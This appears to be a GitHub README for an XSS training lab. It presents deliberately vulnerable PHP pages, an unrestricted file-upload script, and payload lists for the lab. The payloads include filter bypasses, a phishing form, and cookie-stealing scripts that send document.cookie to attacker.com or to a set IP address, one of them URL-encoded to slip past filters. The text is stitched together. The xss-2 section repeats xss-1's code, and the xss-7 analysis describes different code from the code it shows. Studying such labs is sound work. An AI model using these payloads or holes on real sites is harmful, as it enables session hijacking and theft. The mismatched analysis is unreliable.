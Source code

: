 

# XSS-Vulnerable-Code-Analysis

## Cross-Site Scripting(XSS) Code Analysis and XSS Issue

---

### **Vulnerable Example: xss-1.php**

- vim xss-1.php

      <?php
       session_start();
         setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
         $_SESSION['admin'] = 'admin';
          ?>
                                        
         <!DOCTYPE html>
         <html lang="en">
         <head>
         <meta charset="utf-8">
         <meta name="viewport" content="width=device-width, initial-scale=1" />
        <title>XSS Vulnerability Lab</title>
        </head>
        <body>
                                        
         <h1>Welcome To Armour Infosec</h1>

            <?php
          // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
          if (isset($_REQUEST['user'])) {
             echo $_REQUEST['user'] . "!!";
          }
          ?>
                                        
         <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
          <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
                                        
          </body>
         </html>

  The vulnerable code is using $_REQUEST, which combines GET, POST, and COOKIE variables, expanding the attack surface.

### Risks for Users

- Script Execution: Any visitor who clicks a crafted link or submits a manipulated form could have arbitrary JavaScript executed in their browser in the context of the vulnerable site.

- Cookie Theft: Attackers could use scripts to steal session cookies, hijack logins, or impersonate users.

- Session Security: The presence of admin cookies and session variables further increases attack value—they could be targeted for theft or manipulation.

### Common XSS Exploits (for Lab Purposes)

- Simple script execution:

      <script>alert('XSS')</script>

- Event handler injection:

      <img src=x onerror=alert('XSS')>

- Malicious payloads targeting cookies:

      <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

- HTML injection for phishing:

      <form action="https://malicious-site.com">Enter Password: <input type=password></form>

### Why Leave It Vulnerable?

For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks. It provides hands-on experience for attacking and later learning to defend real web applications.

Note:

Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

## Common XSS Exploits (for Lab Purposes)

### 1. Basic Alert Payloads

          <script>alert(123);</script>
          <script>alert("Armour");</script>
          <script>alert(document.domain);</script>
          <script>alert(document.cookie);</script>

- These are simple JavaScript alert popups enclosed in <script> tags.

- They are commonly used to test if XSS vulnerabilities exist by triggering a popup box.

Details:


- alert(123); — Displays a numeric popup alert.

- alert("Armour"); — Displays a popup with the text "Armour".

- alert(document.domain); — Shows the domain of the current document (used to confirm the site context).

- alert(document.cookie); — Displays the user's cookies stored for the site, indicating successful access to sensitive info.

### 2. Cookie Theft via Image Request

    <script>var i=new Image; i.src="http://192.168.1.6/?"+document.cookie;</script>


### 3. URL-Encoded Versions of the Above Payloads

%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F192.168.1.6%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E


- These are the URL-encoded versions of the image-based cookie theft payload.

- URL encoding is used to safely transmit special characters in URLs without breaking web requests or filters.

- When decoded, they become the same JavaScript payload as before.

- Attackers use URL-encoding to bypass input filters or WAFs that don't decode inputs before inspection.


## Summary

| Payload Type                                                | Purpose                                 | Explanation                                            |
|-------------------------------------------------------------|-----------------------------------------|--------------------------------------------------------|
| `<script>alert(...);</script>`                              | Proof of XSS vulnerability              | Shows popup alert to confirm vulnerability             |
| `<script>alert(document.cookie);</script>`                  | Test access to victim’s cookies         | Indicates potential for cookie theft                   |
| `<script>var i=new Image; i.src="..."+document.cookie;</script>` | Steal cookies via HTTP request          | Sends victim’s cookie to attacker's server             |
| `%3Cscript%3E...%3C%2Fscript%3E`                            | Encoded payload for bypassing input restrictions | Encodes special characters for evading filters |

---

### Importance for Security Testing and Labs

- These payloads are typical first steps in security assessments and penetration testing to confirm an XSS flaw.
- The cookie theft payload is a real-world attack vector that hackers use to hijack sessions.
- URL-encoded variants highlight the importance of comprehensive input decoding and normalization before filtering.

> **Always use such payloads responsibly within authorized testing environments or labs, never on unauthorized systems.**

---

### Why Leave It Vulnerable?

- For XSS labs and training, seeing raw, unsanitized output is essential for demonstrating the impact and exploitability of these attacks.
- It provides hands-on experience for attacking and later learning to defend real web applications.

> **Note:** Never deploy this or similar code in any environment that is accessible outside a controlled, ethical testing lab.

---



## **Vulnerable Example:** `xss-2.php`

      
      XSS-Vulnerable-Code-Analysis
      
      Cross-Site Scripting(XSS) Code Analysis and XSS Issue
      
      Vulnerable Example: xss-1.php
      
      vim xss-1.php
      
      <?php
      session_start();
      setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS Vulnerability Lab</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      <?php
      // Vulnerable: directly echoing user input without sanitization, intentional for lab purposes
      if (isset($_REQUEST['user']))
          echo $_REQUEST['user'] . "!";
      ?>
      <p>Try injecting JavaScript or HTML code into the 'user' parameter in the URL to test reflected XSS:</p>
      <pre>?user=&lt;script&gt;alert('XSS')&lt;/script&gt;</pre>
      </body>
      </html>

# Code Analysis and XSS Issue

The provided PHP code snippet is designed to demonstrate a partially filtered but still vulnerable scenario for learning about Cross-Site Scripting (XSS) attacks in a lab environment.

---

## What the Code Does

            $user = $_REQUEST['user'];
            
            if (preg_match('/script/i', $user)) {
            die("Error");
            } else {
            echo $user . "!";
            }

- It takes user input from any HTTP request parameter named `user`.
- It checks if the string "script" (case-insensitive) appears anywhere in the input.
    - If yes, it terminates execution and returns "Error".
    - If no, it outputs the user input directly without any encoding or further sanitization followed by "!".
- Because `$_REQUEST` includes query parameters, POST data, and cookies, this broadens opportunities for injection vectors.

---

## Why This Code is Still Vulnerable to XSS

1. **Naive Filtering:**  
   The filter only looks for the keyword "script" which attempts to block traditional `<script>` tag payloads. However:
    - Many XSS payloads do not use `<script>` tags.
    - Tags such as `<img>`, `<svg>`, `<iframe>`, or event handlers like `onerror`, `onload`, `onclick` can execute JavaScript without containing "script".
    - Attackers may obfuscate payloads by inserting spaces, using different cases, or splitting the word "script" to circumvent the filter.
2. **No Output Encoding:**  
   Even inputs that do not contain "script" are echoed raw inside the HTML page. This enables injection of arbitrary HTML and JavaScript.

---

## Example Bypasses for the Filter

These payloads do **not** contain the string "script" but can still execute JavaScript:

      <img src="x" onerror="alert('XSS')"> <svg onload=alert('XSS')> <body onload=alert('XSS')> <a href="javascript:alert('XSS')">Click me</a> <form action="javascript:alert('XSS')"> ```

     ## Lab Use Case

This partial filter simulates a realistic but flawed defense seen in some poorly protected web apps.

- It allows learners to practice generating valid XSS payloads that bypass simple keyword blocking, improving understanding of modern XSS attack vectors.
- The direct echoing of unsanitized content shows the importance of context-aware encoding and input validation.

---

## Summary

| Aspect         | Details                                                                       |
|----------------|-------------------------------------------------------------------------------|
| Filter         | Blocks any input containing `"script"` (case-insensitive)                     |
| Vulnerability  | Allows any HTML or JS input without `"script"` in it                          |
| Attack Vectors | Event handlers, other HTML tags, obfuscated inputs                            |
| Risk           | Reflected XSS leading to cookie theft, session hijacking, phishing, etc.      |
| Suitable For   | Teaching bypass techniques to naive filters                                   |

 ## vim xss-5.php

      <?php
      session_start();
      setcookie('admin','admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS Lab - Simple Alert Filter</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      
      <?php
      if (isset($_REQUEST['user'])) {
          $user = $_REQUEST['user'];
          // Naive filter to block explicit unescaped string 'alert' (case-insensitive)
          if (preg_match('/alert/i', $user)) {
              die("Error");
          } else {
              echo $user . "!";
          }
      }
      ?>
      </body>
      </html>
      

## How the Code Works

- The script starts a session, sets a cookie, and stores an admin variable in the session.
- It takes the `user` parameter from any HTTP request.
- If the input contains the substring `"alert"` (case-insensitive), the program halts with `"Error"`.
- If not, the input is echoed back to the page un-sanitized, followed by "!".

---

## XSS Issue

### Partial Filtering Only

- This code attempts to block classic XSS demonstrations by looking for `"alert"` in the input.
- It does not filter out HTML tags or JavaScript event handlers or any other JavaScript function but alert.

### No Output Encoding

- User input is rendered directly to the HTML response **without any escaping or sanitization**.

---

## Ways the Vulnerability Can Be Exploited

Even though the payloads like `<script>alert(1)</script>` or `onerror="alert(1)"` are blocked, most XSS payloads do **not** require the `"alert"` keyword. For example:

#### Script Execution via Other Functions:

      <script>confirm(1)</script> <script>prompt(1)</script>

#### HTML/JavaScript Event Handlers:

      <img src=x onerror=confirm(1)> <span onload=confirm(1)> ```

- Arbitrary HTML Injection:
  
      <li style="color:red" onmousemove="console.log(1)">Hover Me</li>

- JavaScript URL Vectors:

      <a href='javascript:console.log(1)'>Click me</a>

### Why This Remains Vulnerable

- The filter only looks for one keyword: "alert".

- Many other vectors, methods, and JavaScript functions exist for showing XSS, stealing cookies, or exploiting accounts.

- No output encoding or sanitization means any excluded string is rendered as HTML/JS.

### Conclusion

- This is a classic example of an insufficient, naive filter. It is a valuable exercise for students to learn:

    - How input blacklists can be trivially bypassed.


## Vulnerable Example: xss-6.php

### vim xss-6.php
      
      <?php
      session_start();
      setcookie('admin', 'admin', time() + (60 * 60 * 24 * 7));
      $_SESSION['admin'] = 'admin';
      ?>
      
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS-6</title>
      </head>
      <body>
      <h1>Welcome To Armour Infosec</h1>
      
      <?php
      if (isset($_REQUEST['user'])) {
          $user = $_REQUEST['user'];
          // Encoding user input with htmlentities to safely display it
          // This prevents XSS by escaping HTML special characters
          echo htmlentities($user, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "!";
      }
      ?>
      </body>
      </html>


## Vulnerable Example: xss-7.php

### vim xss-7.php

      <?php
      // Display POST data and uploaded file information (for debugging and demonstration)
      print_r($_POST);
      print_r($_FILES);
      
      if (isset($_POST['upload'])) {
      
          if ($_FILES['file']['error']) {
              echo "Error";
              die();
          } else {
              echo "Name: " . $_FILES['file']['name'] . "<br />";
              echo "File Type: " . $_FILES['file']['type'] . "<br />";
              echo "Size: " . $_FILES['file']['size'] . "<br />";
              echo "Temp File: " . $_FILES['file']['tmp_name'] . "<br />";
      
              // NOTE: Using original filename without sanitization - vulnerable to path traversal and overwriting
              // The move_uploaded_file() call allows uploading any type of file without restriction
              if (move_uploaded_file($_FILES['file']['tmp_name'], 'upload/' . $_FILES['file']['name'])) {
                  echo "File Uploaded Successfully";
              } else {
                  echo "Could not Upload File";
              }
          }
      }
      ?>
      <!DOCTYPE html>
      <html lang="en">
      <head>
      <meta charset="utf-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1" />
      <title>XSS - File Upload Lab</title>
      </head>
      <body>
      
      <form action="xss-7.php" method="POST" enctype="multipart/form-data">
          <input type="file" name="file">
          <input type="submit" name="upload" value="Upload">
      </form>
      
      </body>
      </html>
      

### Summary:

- The code you have shown is not vulnerable to basic reflected XSS, as it applies htmlentities() on output.

- If your goal is to have an intentionally vulnerable lab version, then using htmlentities() must be avoided or removed.

- If the goal is to analyze XSS from a security perspective, this code demonstrates safe output encoding practice in PHP.

### Recommendation for Lab Use:

- To keep this vulnerable (for XSS testing), avoid using htmlentities() on output.

- Instead, output the raw user input directly (e.g., echo $user . "!";) with no encoding.

- Alternatively, use minimal or partial filters that are easy to bypass.

### Further Reading and Context

- XSS vulnerabilities typically arise when untrusted user inputs are reflected back in HTTP responses without encoding or sanitization.

- Using functions like htmlentities() safely encodes user-supplied input to prevent script execution.

- Proper context-aware encoding is critical based on where the output is inserted (HTML element, attribute, JavaScript code).

- Some advanced attacks attempt to encode payloads in ways that bypass common but improperly used filters.

### How it Works:

- The code retrieves user input from the HTTP request parameter: user (via GET, POST, or COOKIE).

- It outputs the input after processing it with htmlentities().

- htmlentities() converts special HTML characters (like <, >, ") into their respective HTML entities (e.g., < becomes &lt;), which prevents the browser from interpreting them as executable HTML or JavaScript.

- Therefore, this prevents Cross-Site Scripting (XSS) in typical cases because scripts embedded as <script> ... </script> tags or event handlers are neutralized.

### Why the Code is Typically Not Vulnerable (Due to htmlentities):

- Output Encoding: By encoding HTML special characters, any injected script tags or JavaScript code will be rendered as plain text on the page, not executed.

- No direct injection of active code: This is the most effective base prevention for reflected XSS.

- UTF-8 and flags: The example is missing extra flags for htmlentities() like ENT_QUOTES | ENT_HTML5 and explicit UTF-8 charset, which are best practice to encode quotes and support full character sets. But the basic functionality is intact.

### Potential Limitations (for Advanced Attacks or Misuse):

- If the output context changes (e.g., inserting user input inside a JavaScript block or HTML attribute without proper context-aware encoding), htmlentities() alone is insufficient.

- If some filtering occurs before htmlentities() that modifies the input unexpectedly, it might introduce edge cases.

- If the charset is not explicitly set, certain special Unicode problems may occur (but this is rare with modern UTF-8 setups).

- Some advanced attackers may attempt to encode payloads using ways that browsers will normalize (not commonly or properly used).
